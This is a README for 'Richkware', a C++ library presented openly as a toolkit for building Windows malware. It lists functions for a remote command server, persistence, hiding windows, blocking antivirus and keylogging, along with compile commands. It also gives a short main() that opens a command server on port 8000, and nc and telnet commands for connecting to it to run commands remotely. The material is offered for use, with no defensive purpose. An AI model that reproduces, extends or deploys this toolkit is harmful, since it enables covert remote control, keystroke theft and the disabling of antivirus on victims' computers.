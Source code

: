 # Richkware
Malware for Windows, written in C++.

##Description

It's a library of network and OS functions, that you can use to create a malware.
The compositions of these functions, according to different logics permit at the application 
to assume behaviors associable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

##FUNCTIONS

###Network

- **StartServer**: start a server on an arbitrary port, to receive commands from the Internet, 
thus allowing to run commands or make changes to application state;
- **RawRequest**: send a request to a server;

###System

- **SaveValueReg** and **LoadValueReg**
- **SaveSession** and **LoadSession**: save the application state(encrypted) in the system;
- **IsAdmin** and **RequestAdminPrivileges**: check and require administrator privileges;
- **Persistance**: install itself permanently in the system.
- **StealthWindow**: hide applications;
- **OpenApp**: open arbitrary applications;
- **BlockApps** e **UnBlockApps**: block and Unblock applications (antivirus, ...);
- **Keylogger**

###Cryptography

- **EncryptDecrypt**

###Other

- **RandMouse**: move randomly the mouse cursor
- **Hibernation**: hibernate system;

##COMPILE

###Using MinGW cross compiler for Windows

	g++ -O3 -c -o crypto.o crypto.cpp

	g++ -O3 -c -o richkware.o richkware.cpp

	g++ -static-libgcc -static-libstdc++ -o richkware.exe richkware.o crypto.o main.o -lws2_32 

###Using MinGW cross compiler for Linux build environment

	x86_64-w64-mingw32-g++ -O3 -c -o crypto.o crypto.cpp

	x86_64-w64-mingw32-g++ -O3 -c -o richkware.o richkware.cpp

	x86_64-w64-mingw32-g++ -static-libgcc -static-libstdc++ -o richkware.exe richkware.o crypto.o main.o -lws2_32

###Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Proprocessor > Proprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dipendencies, add "Ws2_32.lib"


##REMOTELY COMMAND EXECUTION

Call function **StartServer** in the main, that starts server on port 8000.

	int main () {
		Richkware richkware ;
		richkware.StartServer ("8000");
		return 0;
	}

###Connect from Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000

###Connect from Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000